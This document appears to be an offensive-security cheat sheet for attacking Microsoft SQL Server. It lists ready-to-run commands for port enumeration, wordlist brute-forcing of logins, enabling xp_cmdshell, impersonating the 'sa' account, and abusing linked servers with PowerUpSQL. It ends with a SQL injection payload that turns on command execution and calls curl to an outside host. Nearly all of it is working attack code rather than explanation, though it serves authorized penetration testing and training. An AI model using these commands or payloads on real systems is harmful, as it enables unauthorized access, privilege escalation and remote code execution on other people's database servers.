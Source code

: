 ```yaml
---
description: Recon and pwning MSSQL Server
---
```


# MSSQL

### Enumerate MSSQL with Nmap

{% code overflow="wrap" %}
```bash
nmap --script ms-sql-info -p 1433 10.10.10.1
nmap -p 1433 --script ms-sql-ntlm-info --script-args mssql.instance-port=1433 10.10.10.1
# enumerate user with empty password
nmap -p 1433 --script ms-sql-empty-password 10.10.10.1
```
{% endcode %}

### Dictionary Attack

{% code overflow="wrap" %}
```bash
# nmap
nmap -p 1433 --script ms-sql-brute --script-args userdb=/opt/common_users.txt,passdb=/opt/unix_passwords.txt 10.10.10.1

# netexec
netexec mssql 10.10.10.1 -u /opt/common_users.txt -p /opt/unix_passwords.txt --local-auth --continue-on-success | grep -v "Login failed for user"
```
{% endcode %}

### Enable xp\_cmdshell

{% code overflow="wrap" %}
```sql
EXEC sp_configure 'show advanced options', '1'
RECONFIGURE
EXEC sp_configure 'xp_cmdshell', '1' 
RECONFIGURE
```
{% endcode %}

### Impersonate Other User

{% code overflow="wrap" %}
```bash
# Find users you can impersonate
SELECT distinct b.name
FROM sys.server_permissions a
INNER JOIN sys.server_principals b
ON a.grantor_principal_id = b.principal_id
WHERE a.permission_name = 'IMPERSONATE'
# Check if the user "sa" or any other high privileged user is mentioned

# Impersonate sa user
EXECUTE AS LOGIN = 'sa'
SELECT SYSTEM_USER
SELECT IS_SRVROLEMEMBER('sysadmin')
```
{% endcode %}

### Impacket-MSSQLClient

```bash
impacket-mssqlclient admin:p@ssw0rd@10.10.10.1
# check if we have 'sa' privilege
select IS_SRVROLEMEMBER ('sysadmin')
# execute command using xp_cmdshell
xp_cmdshell "whoami /priv"
```

<figure><img src="https://blogger.googleusercontent.com/img/b/R29vZ2xl/AVvXsEiNC_SOLTJDrgSTRUw0w-mM4S3OBn2VgbKzbqysFXxuh4DML0q9fGFrZJQQL14eKyweQoCVzRDLYW9PXF2GeCSoRAFwpNsCS97swvAQ27X_6ZpanQCbZDIjo4uJ_BH2hDMQ8VZ2loKM_uSMZ7hdFkNUhPTXeDc3J2ASqnqM6A-07nJCw8xgygxk9SEJvzI/s1068/mssql%20impacket.png" alt=""><figcaption><p>Impacket-MSSQLClient</p></figcaption></figure>

Or, use Nmap to execute xp\_cmdshell:

{% code overflow="wrap" %}
```bash
nmap -p 1433 --script ms-sql-xp-cmdshell --script-args mssql.username=admin,mssql.password='p@ssw0rd',ms-sql-xp-cmdshell.cmd="ipconfig" 10.10.10.1
```
{% endcode %}

## PowerUpSQL Stuff

### Check Instance

```bash
get-sqlinstancelocal
get-sqlinstancedomain
Get-SQLConnectionTest -Instance "sql03.zerobyte.id,1433"
```

### Get SQL Instance Info

```
get-sqlserverinfo -instance "WEB06\SQLEXPRESS"
```

### Check Database Links

{% code overflow="wrap" %}
```bash
# AT Command
get-sqlquery -instance "WEB06\SQLEXPRESS" -query "execute as login ='sa'; EXEC ('sp_linkedservers') at SQL03" -Verbose
```
{% endcode %}

### Create or Update Login Mapping

{% code overflow="wrap" %}
```bash
get-sqlquery -instance "WEB06\SQLEXPRESS" -query "EXEC sp_addlinkedsrvlogin 'SQL27', true;" - Verbose
```
{% endcode %}

### Check user can be impersonated

{% code overflow="wrap" %}
```bash
Get-SQLQuery -Instance 'WEB06\SQLEXPRESS' -query "SELECT distinct b.name FROM sys.server_permissions a INNER JOIN sys.server_principals b ON a.grantor_principal_id = b.principal_id WHERE a.permission_name = 'IMPERSONATE';"
```
{% endcode %}

### Enable xp\_cmdshell

On local instance

{% code overflow="wrap" %}
```bash
get-sqlquery -query "execute as login ='sa'; EXEC sp_configure 'show advanced options', '1'; RECONFIGURE; EXEC sp_configure 'xp_cmdshell', '1'; RECONFIGURE; EXEC('xp_cmdshell ''whoami'';" -Verbose
```
{% endcode %}

AT command

{% code overflow="wrap" %}
```bash
get-sqlquery -instance "WEB06\SQLEXPRESS" -query "EXECUTE AS LOGIN = 'sa'; EXEC ('EXEC sp_configure ''show advanced options'', 1; RECONFIGURE; EXEC sp_configure ''xp_cmdshell'', 1; RECONFIGURE; REVERT;') AT SQL03;" -Verbose
```
{% endcode %}

### Enable RPC Out

{% code overflow="wrap" %}
```bash
Get-SQLQuery -instance "WEB06\SQLEXPRESS" -query "execute as login ='sa'; exec sp_serveroption 'SQL03', 'rpc out', 'true';" - Verbose
```
{% endcode %}

## SQL Injection Payload

SQLi to RCE

{% code overflow="wrap" %}
```bash
1'; EXECUTE AS LOGIN = 'sa'; EXEC sp_configure 'show advanced options', '1'; RECONFIGURE; EXEC sp_configure 'xp_cmdshell', '1'; RECONFIGURE; EXEC xp_cmdshell 'curl http://192.168.x.x:8088/'; --
```
{% endcode %}
